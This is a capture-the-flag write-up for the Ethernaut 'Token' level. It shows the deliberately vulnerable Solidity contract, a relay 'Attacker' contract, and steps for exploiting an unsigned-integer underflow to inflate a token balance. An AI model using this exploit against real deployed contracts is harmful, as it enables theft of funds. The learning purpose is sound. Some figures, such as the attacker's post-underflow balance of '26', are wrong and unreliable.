 # [5. Token](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0. Here too we needed a buddy to help us, which is the contract below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Token {
  function transfer(address _to, uint _value) external returns (bool);
}

contract Attacker {
  Token tokenTarget;

  constructor(address _target) {
    tokenTarget = Token(_target);
  }

  function transfer(address _to, uint _value) external returns (bool) {
    return tokenTarget.transfer(_to, _value);
  }
}
```

The steps are simple:

1. We start with 20 tokens, as the task described. We send an arbitrary amount of (lets say 4) tokens to the Attacker contract.
    - Player has 16 tokens
    - Attacker has 4 tokens
2. We can now send from Attacker to the Player a HUGE amount of tokens, I sent 67108842. It is important to note that this value is a bit smaller than the upper-limit to avoid overflowing back.
    - Player has 67108858 tokens. This is equal to (16 + 67108842).
    - Attacker has 26 tokens. This is equal to (4 - 67108842) underflowed.

Why did we need the buddy attacker? In the code, you can see that the following two lines cancel eachother out if both `msg.sender` and `_to` are the same:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```
